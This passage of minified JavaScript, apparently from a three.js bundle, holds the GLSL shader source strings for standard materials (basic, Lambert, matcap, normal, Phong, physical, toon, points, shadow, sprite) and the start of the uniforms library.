<defaultnormal_vertex>\n\t#endif\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\t#include <worldpos_vertex>\n\t#include <envmap_vertex>\n\t#include <fog_vertex>\n}",meshbasic_frag:"uniform vec3 diffuse;\nuniform float opacity;\n#ifndef FLAT_SHADED\n\tvarying vec3 vNormal;\n#endif\n#include <common>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <aomap_pars_fragment>\n#include <lightmap_pars_fragment>\n#include <envmap_common_pars_fragment>\n#include <envmap_pars_fragment>\n#include <fog_pars_fragment>\n#include <specularmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <specularmap_fragment>\n\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\n\t#ifdef USE_LIGHTMAP\n\t\tvec4 lightMapTexel = texture2D( lightMap, vLightMapUv );\n\t\treflectedLight.indirectDiffuse += lightMapTexel.rgb * lightMapIntensity * RECIPROCAL_PI;\n\t#else\n\t\treflectedLight.indirectDiffuse += vec3( 1.0 );\n\t#endif\n\t#include <aomap_fragment>\n\treflectedLight.indirectDiffuse *= diffuseColor.rgb;\n\tvec3 outgoingLight = reflectedLight.indirectDiffuse;\n\t#include <envmap_fragment>\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",meshlambert_vert:"#define LAMBERT\nvarying vec3 vViewPosition;\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <envmap_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <shadowmap_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\tvViewPosition = - mvPosition.xyz;\n\t#include <worldpos_vertex>\n\t#include <envmap_vertex>\n\t#include <shadowmap_vertex>\n\t#include <fog_vertex>\n}",meshlambert_frag:"#define LAMBERT\nuniform vec3 diffuse;\nuniform vec3 emissive;\nuniform float opacity;\n#include <common>\n#include <packing>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <aomap_pars_fragment>\n#include <lightmap_pars_fragment>\n#include <emissivemap_pars_fragment>\n#include <envmap_common_pars_fragment>\n#include <envmap_pars_fragment>\n#include <fog_pars_fragment>\n#include <bsdfs>\n#include <lights_pars_begin>\n#include <normal_pars_fragment>\n#include <lights_lambert_pars_fragment>\n#include <shadowmap_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <specularmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\n\tvec3 totalEmissiveRadiance = emissive;\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <specularmap_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\t#include <emissivemap_fragment>\n\t#include <lights_lambert_fragment>\n\t#include <lights_fragment_begin>\n\t#include <lights_fragment_maps>\n\t#include <lights_fragment_end>\n\t#include <aomap_fragment>\n\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + totalEmissiveRadiance;\n\t#include <envmap_fragment>\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",meshmatcap_vert:"#define MATCAP\nvarying vec3 vViewPosition;\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <color_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <fog_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\t#include <fog_vertex>\n\tvViewPosition = - mvPosition.xyz;\n}",meshmatcap_frag:"#define MATCAP\nuniform vec3 diffuse;\nuniform float opacity;\nuniform sampler2D matcap;\nvarying vec3 vViewPosition;\n#include <common>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <fog_pars_fragment>\n#include <normal_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\tvec3 viewDir = normalize( vViewPosition );\n\tvec3 x = normalize( vec3( viewDir.z, 0.0, - viewDir.x ) );\n\tvec3 y = cross( viewDir, x );\n\tvec2 uv = vec2( dot( x, normal ), dot( y, normal ) ) * 0.495 + 0.5;\n\t#ifdef USE_MATCAP\n\t\tvec4 matcapColor = texture2D( matcap, uv );\n\t#else\n\t\tvec4 matcapColor = vec4( vec3( mix( 0.2, 0.8, uv.y ) ), 1.0 );\n\t#endif\n\tvec3 outgoingLight = diffuseColor.rgb * matcapColor.rgb;\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",meshnormal_vert:"#define NORMAL\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\n\tvarying vec3 vViewPosition;\n#endif\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\n\tvViewPosition = - mvPosition.xyz;\n#endif\n}",meshnormal_frag:"#define NORMAL\nuniform float opacity;\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\n\tvarying vec3 vViewPosition;\n#endif\n#include <packing>\n#include <uv_pars_fragment>\n#include <normal_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( 0.0, 0.0, 0.0, opacity );\n\t#include <clipping_planes_fragment>\n\t#include <logdepthbuf_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\tgl_FragColor = vec4( packNormalToRGB( normal ), diffuseColor.a );\n\t#ifdef OPAQUE\n\t\tgl_FragColor.a = 1.0;\n\t#endif\n}",meshphong_vert:"#define PHONG\nvarying vec3 vViewPosition;\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <envmap_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <shadowmap_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\tvViewPosition = - mvPosition.xyz;\n\t#include <worldpos_vertex>\n\t#include <envmap_vertex>\n\t#include <shadowmap_vertex>\n\t#include <fog_vertex>\n}",meshphong_frag:"#define PHONG\nuniform vec3 diffuse;\nuniform vec3 emissive;\nuniform vec3 specular;\nuniform float shininess;\nuniform float opacity;\n#include <common>\n#include <packing>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <aomap_pars_fragment>\n#include <lightmap_pars_fragment>\n#include <emissivemap_pars_fragment>\n#include <envmap_common_pars_fragment>\n#include <envmap_pars_fragment>\n#include <fog_pars_fragment>\n#include <bsdfs>\n#include <lights_pars_begin>\n#include <normal_pars_fragment>\n#include <lights_phong_pars_fragment>\n#include <shadowmap_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <specularmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\n\tvec3 totalEmissiveRadiance = emissive;\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <specularmap_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\t#include <emissivemap_fragment>\n\t#include <lights_phong_fragment>\n\t#include <lights_fragment_begin>\n\t#include <lights_fragment_maps>\n\t#include <lights_fragment_end>\n\t#include <aomap_fragment>\n\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + reflectedLight.directSpecular + reflectedLight.indirectSpecular + totalEmissiveRadiance;\n\t#include <envmap_fragment>\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",meshphysical_vert:"#define STANDARD\nvarying vec3 vViewPosition;\n#ifdef USE_TRANSMISSION\n\tvarying vec3 vWorldPosition;\n#endif\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <shadowmap_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\tvViewPosition = - mvPosition.xyz;\n\t#include <worldpos_vertex>\n\t#include <shadowmap_vertex>\n\t#include <fog_vertex>\n#ifdef USE_TRANSMISSION\n\tvWorldPosition = worldPosition.xyz;\n#endif\n}",meshphysical_frag:"#define STANDARD\n#ifdef PHYSICAL\n\t#define IOR\n\t#define USE_SPECULAR\n#endif\nuniform vec3 diffuse;\nuniform vec3 emissive;\nuniform float roughness;\nuniform float metalness;\nuniform float opacity;\n#ifdef IOR\n\tuniform float ior;\n#endif\n#ifdef USE_SPECULAR\n\tuniform float specularIntensity;\n\tuniform vec3 specularColor;\n\t#ifdef USE_SPECULAR_COLORMAP\n\t\tuniform sampler2D specularColorMap;\n\t#endif\n\t#ifdef USE_SPECULAR_INTENSITYMAP\n\t\tuniform sampler2D specularIntensityMap;\n\t#endif\n#endif\n#ifdef USE_CLEARCOAT\n\tuniform float clearcoat;\n\tuniform float clearcoatRoughness;\n#endif\n#ifdef USE_DISPERSION\n\tuniform float dispersion;\n#endif\n#ifdef USE_IRIDESCENCE\n\tuniform float iridescence;\n\tuniform float iridescenceIOR;\n\tuniform float iridescenceThicknessMinimum;\n\tuniform float iridescenceThicknessMaximum;\n#endif\n#ifdef USE_SHEEN\n\tuniform vec3 sheenColor;\n\tuniform float sheenRoughness;\n\t#ifdef USE_SHEEN_COLORMAP\n\t\tuniform sampler2D sheenColorMap;\n\t#endif\n\t#ifdef USE_SHEEN_ROUGHNESSMAP\n\t\tuniform sampler2D sheenRoughnessMap;\n\t#endif\n#endif\n#ifdef USE_ANISOTROPY\n\tuniform vec2 anisotropyVector;\n\t#ifdef USE_ANISOTROPYMAP\n\t\tuniform sampler2D anisotropyMap;\n\t#endif\n#endif\nvarying vec3 vViewPosition;\n#include <common>\n#include <packing>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <aomap_pars_fragment>\n#include <lightmap_pars_fragment>\n#include <emissivemap_pars_fragment>\n#include <iridescence_fragment>\n#include <cube_uv_reflection_fragment>\n#include <envmap_common_pars_fragment>\n#include <envmap_physical_pars_fragment>\n#include <fog_pars_fragment>\n#include <lights_pars_begin>\n#include <normal_pars_fragment>\n#include <lights_physical_pars_fragment>\n#include <transmission_pars_fragment>\n#include <shadowmap_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <clearcoat_pars_fragment>\n#include <iridescence_pars_fragment>\n#include <roughnessmap_pars_fragment>\n#include <metalnessmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\n\tvec3 totalEmissiveRadiance = emissive;\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <roughnessmap_fragment>\n\t#include <metalnessmap_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\t#include <clearcoat_normal_fragment_begin>\n\t#include <clearcoat_normal_fragment_maps>\n\t#include <emissivemap_fragment>\n\t#include <lights_physical_fragment>\n\t#include <lights_fragment_begin>\n\t#include <lights_fragment_maps>\n\t#include <lights_fragment_end>\n\t#include <aomap_fragment>\n\tvec3 totalDiffuse = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse;\n\tvec3 totalSpecular = reflectedLight.directSpecular + reflectedLight.indirectSpecular;\n\t#include <transmission_fragment>\n\tvec3 outgoingLight = totalDiffuse + totalSpecular + totalEmissiveRadiance;\n\t#ifdef USE_SHEEN\n\t\tfloat sheenEnergyComp = 1.0 - 0.157 * max3( material.sheenColor );\n\t\toutgoingLight = outgoingLight * sheenEnergyComp + sheenSpecularDirect + sheenSpecularIndirect;\n\t#endif\n\t#ifdef USE_CLEARCOAT\n\t\tfloat dotNVcc = saturate( dot( geometryClearcoatNormal, geometryViewDir ) );\n\t\tvec3 Fcc = F_Schlick( material.clearcoatF0, material.clearcoatF90, dotNVcc );\n\t\toutgoingLight = outgoingLight * ( 1.0 - material.clearcoat * Fcc ) + ( clearcoatSpecularDirect + clearcoatSpecularIndirect ) * material.clearcoat;\n\t#endif\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",meshtoon_vert:"#define TOON\nvarying vec3 vViewPosition;\n#include <common>\n#include <batching_pars_vertex>\n#include <uv_pars_vertex>\n#include <displacementmap_pars_vertex>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <normal_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <shadowmap_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <normal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <displacementmap_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\tvViewPosition = - mvPosition.xyz;\n\t#include <worldpos_vertex>\n\t#include <shadowmap_vertex>\n\t#include <fog_vertex>\n}",meshtoon_frag:"#define TOON\nuniform vec3 diffuse;\nuniform vec3 emissive;\nuniform float opacity;\n#include <common>\n#include <packing>\n#include <dithering_pars_fragment>\n#include <color_pars_fragment>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <aomap_pars_fragment>\n#include <lightmap_pars_fragment>\n#include <emissivemap_pars_fragment>\n#include <gradientmap_pars_fragment>\n#include <fog_pars_fragment>\n#include <bsdfs>\n#include <lights_pars_begin>\n#include <normal_pars_fragment>\n#include <lights_toon_pars_fragment>\n#include <shadowmap_pars_fragment>\n#include <bumpmap_pars_fragment>\n#include <normalmap_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\n\tvec3 totalEmissiveRadiance = emissive;\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <color_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\t#include <normal_fragment_begin>\n\t#include <normal_fragment_maps>\n\t#include <emissivemap_fragment>\n\t#include <lights_toon_fragment>\n\t#include <lights_fragment_begin>\n\t#include <lights_fragment_maps>\n\t#include <lights_fragment_end>\n\t#include <aomap_fragment>\n\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + totalEmissiveRadiance;\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n\t#include <dithering_fragment>\n}",points_vert:"uniform float size;\nuniform float scale;\n#include <common>\n#include <color_pars_vertex>\n#include <fog_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\n#ifdef USE_POINTS_UV\n\tvarying vec2 vUv;\n\tuniform mat3 uvTransform;\n#endif\nvoid main() {\n\t#ifdef USE_POINTS_UV\n\t\tvUv = ( uvTransform * vec3( uv, 1 ) ).xy;\n\t#endif\n\t#include <color_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphcolor_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <project_vertex>\n\tgl_PointSize = size;\n\t#ifdef USE_SIZEATTENUATION\n\t\tbool isPerspective = isPerspectiveMatrix( projectionMatrix );\n\t\tif ( isPerspective ) gl_PointSize *= ( scale / - mvPosition.z );\n\t#endif\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\t#include <worldpos_vertex>\n\t#include <fog_vertex>\n}",points_frag:"uniform vec3 diffuse;\nuniform float opacity;\n#include <common>\n#include <color_pars_fragment>\n#include <map_particle_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <fog_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tvec3 outgoingLight = vec3( 0.0 );\n\t#include <logdepthbuf_fragment>\n\t#include <map_particle_fragment>\n\t#include <color_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\toutgoingLight = diffuseColor.rgb;\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n\t#include <premultiplied_alpha_fragment>\n}",shadow_vert:"#include <common>\n#include <batching_pars_vertex>\n#include <fog_pars_vertex>\n#include <morphtarget_pars_vertex>\n#include <skinning_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <shadowmap_pars_vertex>\nvoid main() {\n\t#include <batching_vertex>\n\t#include <beginnormal_vertex>\n\t#include <morphinstance_vertex>\n\t#include <morphnormal_vertex>\n\t#include <skinbase_vertex>\n\t#include <skinnormal_vertex>\n\t#include <defaultnormal_vertex>\n\t#include <begin_vertex>\n\t#include <morphtarget_vertex>\n\t#include <skinning_vertex>\n\t#include <project_vertex>\n\t#include <logdepthbuf_vertex>\n\t#include <worldpos_vertex>\n\t#include <shadowmap_vertex>\n\t#include <fog_vertex>\n}",shadow_frag:"uniform vec3 color;\nuniform float opacity;\n#include <common>\n#include <packing>\n#include <fog_pars_fragment>\n#include <bsdfs>\n#include <lights_pars_begin>\n#include <logdepthbuf_pars_fragment>\n#include <shadowmap_pars_fragment>\n#include <shadowmask_pars_fragment>\nvoid main() {\n\t#include <logdepthbuf_fragment>\n\tgl_FragColor = vec4( color, opacity * ( 1.0 - getShadowMask() ) );\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n}",sprite_vert:"uniform float rotation;\nuniform vec2 center;\n#include <common>\n#include <uv_pars_vertex>\n#include <fog_pars_vertex>\n#include <logdepthbuf_pars_vertex>\n#include <clipping_planes_pars_vertex>\nvoid main() {\n\t#include <uv_vertex>\n\tvec4 mvPosition = modelViewMatrix * vec4( 0.0, 0.0, 0.0, 1.0 );\n\tvec2 scale;\n\tscale.x = length( vec3( modelMatrix[ 0 ].x, modelMatrix[ 0 ].y, modelMatrix[ 0 ].z ) );\n\tscale.y = length( vec3( modelMatrix[ 1 ].x, modelMatrix[ 1 ].y, modelMatrix[ 1 ].z ) );\n\t#ifndef USE_SIZEATTENUATION\n\t\tbool isPerspective = isPerspectiveMatrix( projectionMatrix );\n\t\tif ( isPerspective ) scale *= - mvPosition.z;\n\t#endif\n\tvec2 alignedPosition = ( position.xy - ( center - vec2( 0.5 ) ) ) * scale;\n\tvec2 rotatedPosition;\n\trotatedPosition.x = cos( rotation ) * alignedPosition.x - sin( rotation ) * alignedPosition.y;\n\trotatedPosition.y = sin( rotation ) * alignedPosition.x + cos( rotation ) * alignedPosition.y;\n\tmvPosition.xy += rotatedPosition;\n\tgl_Position = projectionMatrix * mvPosition;\n\t#include <logdepthbuf_vertex>\n\t#include <clipping_planes_vertex>\n\t#include <fog_vertex>\n}",sprite_frag:"uniform vec3 diffuse;\nuniform float opacity;\n#include <common>\n#include <uv_pars_fragment>\n#include <map_pars_fragment>\n#include <alphamap_pars_fragment>\n#include <alphatest_pars_fragment>\n#include <alphahash_pars_fragment>\n#include <fog_pars_fragment>\n#include <logdepthbuf_pars_fragment>\n#include <clipping_planes_pars_fragment>\nvoid main() {\n\tvec4 diffuseColor = vec4( diffuse, opacity );\n\t#include <clipping_planes_fragment>\n\tvec3 outgoingLight = vec3( 0.0 );\n\t#include <logdepthbuf_fragment>\n\t#include <map_fragment>\n\t#include <alphamap_fragment>\n\t#include <alphatest_fragment>\n\t#include <alphahash_fragment>\n\toutgoingLight = diffuseColor.rgb;\n\t#include <opaque_fragment>\n\t#include <tonemapping_fragment>\n\t#include <colorspace_fragment>\n\t#include <fog_fragment>\n}"},Mr={common:{diffuse:{value:new di(16777215)},opacity:{value:1},map:{value:null},mapTransform:{value:new ye},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0}},specularmap:{specularMap:{value:null},specularMapTransform:{value:new ye}},envmap:{envMap:{value:null},envMapRotation:{value:new ye},flipEnvMap:{value:-1},reflectivity:{value:1},ior:{value:1.5},refractionRatio:{value:.98}},aomap:{aoMap:{value:null},aoMapIntensity:{value:1},aoMapTransform:{value:new ye}},lightmap:{lightMap:{value:null},lightMapIntensity:{value:1},lightMapTransform:{value:new ye}},bumpmap:{bumpMap:{value:null},bumpMapTransform:{value:new ye},bumpScale:{value:1}},normalmap:{normalMap:{value:null},normalMapTransform:{value:new ye},normalScale:{value:new ve(1,1)}},displacementmap:{displacementMap:{value:null},displacementMapTransform:{value:new ye},displacementScale:{value:1},displacementBias:{value:0}},emissivemap:{emissiveMap:{value:null},emissiveMapTransform:{value:new ye}},metalnessmap:{metalnessMap:{value:null},metalnessMapTransform:{value:new ye}},roughnessmap:{roughnessMap:{value:null},roughnessMapTransform:{value:new ye}},gradientmap:{gradientMap:{value:null}},fog:{fogDensity:{value:25e-5},fogNear:{value:1},fogFar:{value:2e3},fogColor:{value:new 